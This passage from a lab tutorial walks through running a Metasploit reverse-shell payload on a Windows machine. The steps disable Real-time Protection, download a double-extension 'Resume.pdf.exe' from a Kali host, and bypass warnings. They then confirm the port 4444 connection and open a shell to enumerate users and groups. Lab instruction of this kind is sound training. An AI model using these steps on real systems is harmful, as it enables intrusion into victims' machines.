     - Turn off **Real-time Protection**
        
2. **Open browser** and visit:
    
    ```
    http://192.168.20.11:9999
    ```
    
3. Download `Resume.pdf.exe`.  
    If you see a warning about the file not being commonly downloaded — ignore it _only for this lab_.
    
4. **Run the file**.  
    If Windows shows a warning, choose **Run anyway**.
    

---

### 🧪 Step 7: Confirm the Connection

Open Command Prompt as Administrator and run:

```bash
netstat -anob
```

🔍 Look for:

- An **established connection** to Kali’s IP:4444
    
- Check the **Process ID** (e.g., 10208)
    
- Open **Task Manager > Details** tab, find that PID → it should be `Resume.pdf.exe`
    

✅ If yes — your malware has executed successfully.

---

### 💻 Step 8: Back on Kali – You Have a Shell!

In the **Metasploit handler**, you should now see a session opened.

Type:

```bash
help
```

Try:

```bash
shell        # Spawn a shell on victim machine
```

Test with some useful commands:

```bash
net user
net localgroup
ipconfig
```
